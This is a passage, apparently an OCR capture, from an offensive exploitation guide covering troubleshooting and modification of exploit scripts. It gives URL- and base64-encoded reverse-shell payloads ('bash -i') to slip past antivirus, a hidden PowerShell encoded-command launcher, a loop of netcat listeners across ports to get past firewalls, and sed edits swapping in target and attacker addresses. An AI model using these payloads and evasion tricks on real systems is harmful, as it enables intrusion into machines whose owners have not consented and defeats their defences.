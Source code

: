 # Test with different payload encodings
# URL encoding
python3 exploit.py -t TARGET --payload "%62%61%73%68%20%2d%69..."

# PowerShell encoding for Windows targets
powershell_payload = "powershell -nop -w hidden -e $(base64_encoded_command)"
```

### **Connection Drops Immediately**
**Common causes and solutions:**
```
# Antivirus detection - try encoded payloads
python3 exploit.py -t TARGET --payload "$(echo 'bash -i...' | base64)"

# Firewall blocking - try different ports
for port in 80 443 53 8080 22; do
    nc -nvlp $port &
    python3 exploit.py -t TARGET --lport $port
done
```

## **6. Script Modification and Adaptation**

### **Common Script Modifications**
```
# Copy script for modifications
cp exploit.py exploit.local.py

# Common edits needed:
# 1. Replace hardcoded IPs/ports
sed -i 's/192.168.1.100/TARGET_IP/g' exploit.local.py
sed -i 's/127.0.0.1/ATTACKER_IP/g' exploit.local.py

# 2. Fix Python version compatibility
sed -i 's/print /print(/g' exploit.local.py  # Add parentheses for Python 3
sed -i 's/raw_input/input/g' exploit.local.py  # Python 3 input function

# 3. Add debugging output
# Add these lines after imports:
import sys
print(f"[DEBUG] Target: {sys.argv}", file=sys.stderr)
```

### **Python 2 to Python 3 Conversion**
```
# Common conversions needed:
